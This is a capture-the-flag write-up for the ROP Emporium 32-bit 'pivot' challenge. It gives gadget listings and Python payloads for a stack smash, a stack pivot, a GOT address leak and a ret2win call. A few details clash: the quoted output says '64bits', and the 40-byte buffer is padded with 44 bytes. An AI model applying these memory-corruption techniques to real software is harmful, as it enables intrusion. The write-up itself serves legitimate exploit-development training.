# pivot - 32bit

Pivot is a challenge that requires a new technique due to limited stack space. We only have space for about three ROP elements. This means we have to pivot to another chain to achieve anything purposeful.

Our overall aim is to call the `ret2win` function imported from the companying library.

The output of the program gives us an address of the area we should pivot to:

```
pivot by ROP Emporium
64bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0x7fbeab9e2f10
Send your second chain now and it will land there
> 
```

The attack strategy is below:

1st stage
- Stack smash to pivot (Overwrite ESP)
- Leak address ROP chain

2nd stage
- Stack smash to call ret2win

## 1st Stage


### Stack smash
The buffer is exactly the same as all other challenges at 40. We need to use the limited stack size to pivot to the other buffer. This will be achieved by overwriting the `esp`. 

`ropper` has a flag to filter gadgets that are useful for this exact situation:

```
$ ropper --nocolor --stack-pivot -f pivot32

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

Gadgets
=======
0x0804889b: add esp, 0x10; nop; leave; ret; 
0x08048925: add esp, 0xc; pop ebx; pop esi; pop edi; pop ebp; ret; 
0x0804856e: add esp, 8; pop ebx; ret; 
0x080488c2: xchg eax, esp; ret; 

7 gadgets found
```

What really stands out is the `xchg` gadget, this combined with a `pop eax` gadget (that exists) will allow us to achieve our goal.

```
0x080488c0: pop eax; ret; 
```

The stack smash payload is formed like so:

```python
p = b""
p += junk        # 44 * "A"
p += pop_eax     # pop eax; ret; 
p += pivot_addr  # [Provided by program output]
p += xhg_gad     # xchg eax, esp; ret; 
```

### Leak addresses
The next step is to leak the `.so` file base address, this can be achieved by utilizing the `.plt` and `.got` imports. We will print the `got` entry of `foothold_function` with the function `puts`. We will then return to the `main` function to set up for the final stage.

Obtaining these addresses can be achieved with `pwntools`

```python
e = ELF(f"./{BINARY_NAME}")

foot_plt = p32(e.plt[b'foothold_function'])
foot_got = p32(e.got[b'foothold_function'])
puts_plt = p32(e.plt[b'puts'])

main_ptr = p32(e.symbols[b'main'])
```

We initially need to call `foothold_function@plt` in order to trigger the dynamic loader to populate the `GOT` with the function address we want.

Therefore, out payload is formed like so:

```python
p = b""
p += foot_plt
p += puts_plt
p += main_ptr # exit_address
p += foot_got
```

This will leak us the address of `function_function@got`! We will call it `foot_leak`.

Using offsets calculated with `readelf -s <file.so>` we can calculate the base address of the imported library, and therefore calculate the exact address of the `ret2win` function we want to call.

```python
foot_offset = 0x770
ret2_offset = 0x967
```

Calculating the addresses is achieved like:

```python
lib_base  = foot_leak - foot_offset
ret2_addr = p32(lib_base + ret2_offset)
```

# Final step

All we need to do now is perform a stack smash with the newly calculated `ret2_addr` value we just worked out.

The simple payload will be formed like so:

```python
p = b""
p += junk       # 44 x "A"
p += ret2_addr
```

This overall exploit will call the `ret2win` function and provide us with the flag!